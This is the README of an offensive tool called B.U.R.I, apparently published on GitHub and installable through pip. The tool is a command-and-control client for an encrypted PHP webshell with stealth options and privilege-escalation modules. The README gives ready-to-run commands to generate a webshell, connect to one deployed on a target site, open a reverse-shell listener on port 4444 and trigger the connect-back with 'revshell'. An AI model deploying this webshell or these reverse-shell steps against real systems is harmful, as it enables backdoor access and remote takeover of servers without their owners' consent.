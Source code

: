 <img width="563" height="729" alt="image" src="https://github.com/user-attachments/assets/fd44ac00-cf3f-46b1-be0e-a74669280599" />

B.U.R.I (Backdoor Utility for Remote Interaction) is a modular, encrypted command-and-control (C2) webshell client designed for secure and interactive remote administration. It provides a feature-rich interface for managing remote systems via an encrypted PHP webshell, supporting AES-GCM encryption, reverse shell capabilities, and extensible command modules.

## Features

- **Encrypted Communication**: Uses AES-GCM for secure client-server communication.
- **Interactive Shell**: Rich terminal UI with auto-completion, history, and syntax highlighting powered by `rich` and `prompt_toolkit`.
- **Modular Design**: Extensible command modules for custom functionality (e.g., file upload/download, privilege escalation).
- **Reverse Shell Support**: Built-in listener for reverse shell connections.
- **Cross-Platform**: Supports both Linux and Windows targets with dynamic environment detection.
- **Stealth Options**: Customizable POST parameters and proxy support for enhanced discretion.
- **Path Autocompletion**: Remote path completion using `ls` for efficient navigation.

## Installation
```
    pip install buri-tod
```

## Usage

B.U.R.I supports three main modes: creating a webshell, running an interactive session, and listening for reverse shells.

### 1. Create a Webshell
Generate an encrypted PHP webshell:
```bash
buri create --path shell.php --password 'SuperSecretPass123'
```
This creates a PHP webshell at `shell.php` with the specified password for encryption.

### 2. Run an Interactive Session
Connect to a deployed webshell:
```bash
buri run https://example.com/shell.php -p 'SuperSecretPass123' --param 'data'
```
- `--param`: Specify the POST parameter name (default: `data`).
- `--proxy`: Optional proxy (e.g., `http://127.0.0.1:8080`).

### 3. Start a Reverse Shell Listener
Listen for incoming reverse shell connections:
```bash
buri listen --lhost 0.0.0.0 --lport 4444
```
Then, from the interactive shell, initiate a reverse shell:
```
revshell <listener_ip> 4444
```

### Example Commands
Once in the interactive shell:
- `whoami`: Display the current user.
- `cd /path/to/dir`: Change the remote working directory.
- `ls`: List files in the current directory (supports autocompletion).
- `upload /local/path /remote/path`: Upload a file to the remote system.
- `download /remote/path /local/path`: Download a file from the remote system.
- `revshell <ip> <port>`: Initiate a reverse shell to the specified listener.